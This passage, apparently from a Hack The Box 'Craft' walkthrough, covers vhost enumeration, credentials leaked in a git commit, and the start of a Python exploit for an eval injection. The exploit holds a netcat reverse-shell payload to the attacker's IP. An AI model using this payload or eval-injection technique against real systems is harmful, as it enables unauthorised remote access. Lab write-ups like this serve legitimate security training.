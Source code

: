 ```
===============================================================
2019/12/31 02:58:21 Starting gobuster
===============================================================
Found: api.craft.htb (Status: 404) [Size: 233]
Found: vault.craft.htb (Status: 404) [Size: 19]
===============================================================
2019/12/31 02:58:55 Finished
===============================================================
```

Nice, so we found another vhost; "vault.craft.htb". I think our next step should be to visit the
"api.craft.htb" vhost, so let's add this to our scope on burp and begin enumeration (note: don't
forget to add the vhosts to your /etc/hosts file).

Just a swagger api spec here, however this vhost does appear to contain all the api functionality
for some application, could be a way in, but we'll take a closer look later. Let's have a look at
the "gogs.craft.htb" vhost next.

This page is a lot more interesting. It's a self-hosted git management service. When we visit the
"explore" link, we discover what looks like the repository for the api we discovered earlier.
Digging through the issues and commit history we find some credentials for the api in a test script
that Dinesh uploaded, but later removed. Oh no, Dinesh.
```
+response = requests.get('https://api.craft.htb/api/auth/login',  auth=('dinesh', '4aUh0A8PbVJxgd'), verify=False)
```

A quick `curl` request will confirm whether
these credentials are still valid.
```
$ curl https://api.craft.htb/api/auth/login -u dinesh:4aUh0A8PbVJxgd -k
{"token":"eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiZGluZXNoIiwiZXhwIjoxNTc3NzMzNTYwfQ.oLb0iw5P-JOaWpB3Jjq14VwIm8AJRmp3lQjcNY014lY"}
```

They're still valid. Oh no, Dinesh. Why? I hope you haven't re-used these credentials for the
git management service. Let's give them a try.

Sigh, they worked. I'm not sure what I expected. Let's dig around some more now that we have access
to Dinesh's account.

## Part 2 - Initial Foothold
So a bit more digging around with Dinesh's account didn't reveal anything too important. However I
went through all the commits again we find a fix that Dinesh committed. Where he used an eval
statement on user input. Oh, Dinesh. Unfortunately we need credentials to use it. But guess who
leaked their credentials earlier? Thanks, Dinesh. Now we just need to figure out how we can get
RCE. Let's write a quick python script to leverage this and see if we can get a reverse shell.

```python
#!/usr/bin/python3

PAYLOAD = 'nc 10.10.14.41 4444 -e /bin/sh'

import requests
import json
from urllib3.exceptions import InsecureRequestWarning

# Ignore insecure https request warnings.
requests.packages.urllib3.disable_warnings(category=InsecureRequestWarning)

base_url = 'https://api.craft.htb/api/'
creds = ('dinesh', '4aUh0A8PbVJxgd')

# Retrieve the authentication token.
r = requests.get(base_url+'auth/login', auth=creds, verify=False)

```